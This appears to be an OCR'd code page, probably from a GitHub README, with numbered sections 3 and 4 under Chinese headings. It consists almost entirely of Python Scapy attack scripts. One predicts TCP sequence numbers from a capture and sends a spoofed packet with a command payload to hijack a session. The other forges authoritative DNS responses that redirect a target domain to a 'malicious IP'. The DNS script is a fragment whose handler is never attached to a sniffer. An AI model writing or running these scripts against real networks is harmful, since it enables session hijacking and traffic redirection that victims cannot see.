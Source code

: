 ### 3. TCP序列预测和会话劫持

```python
from scapy.all import *

def predict_and_hijack_tcp():
    # Analyze TCP sequence numbers from a stream
    packets = rdpcap('tcp_stream.pcap')
    syn_packets = [p for p in packets if TCP in p and p[TCP].flags & 2]  # SYN flag is set

    # Calculate sequence number pattern
    seq_numbers = [p[TCP].seq for p in syn_packets]
    diffs = [seq_numbers[i+1] - seq_numbers[i] for i in range(len(seq_numbers)-1)]

    if len(set(diffs)) == 1:
        print(f"Predictable sequence! Increment: {diffs[0]}")
        next_seq = seq_numbers[-1] + diffs[0]

        # Craft a packet with the predicted sequence number
        target_ip = packets[0][IP].dst
        target_port = packets[0][TCP].dport
        spoofed_packet = IP(dst=target_ip)/TCP(dport=target_port, seq=next_seq, flags="A")

        # Add payload for command execution
        spoofed_packet = spoofed_packet/Raw(load=b"echo 'Hijacked!'")

        # Send the packet
        send(spoofed_packet)
        print(f"Sent hijacked packet with sequence {next_seq}")
    else:
        print("Sequence numbers not easily predictable")

predict_and_hijack_tcp()
```

### 4. DNS响应欺骗

```python
from scapy.all import *

def dns_spoofing():
    # Function to handle DNS requests and send spoofed responses
    def dns_spoof(pkt):
        if (DNS in pkt and pkt[DNS].qr == 0 and 
            pkt[DNS].qd.qname == b'target-site.com.'):

            # Craft a spoofed DNS response
            spoofed = IP(dst=pkt[IP].src)/\
                      UDP(dport=pkt[UDP].sport, sport=53)/\
                      DNS(
                          id=pkt[DNS].id,
                          qr=1,  # Response
                          aa=1,  # Authoritative
                          qd=pkt[DNS].qd,  # Question Record
                          an=DNSRR(
                              rrname=pkt[DNS].qd.qname,
                              ttl=3600,
                              type='A',
                              rdata='192.168.1.100'  # Malicious IP
                          )
                      )

            send(spoofed, verbose=0)
            print(f"Sent spoofed DNS response to {pkt[IP].src}")
```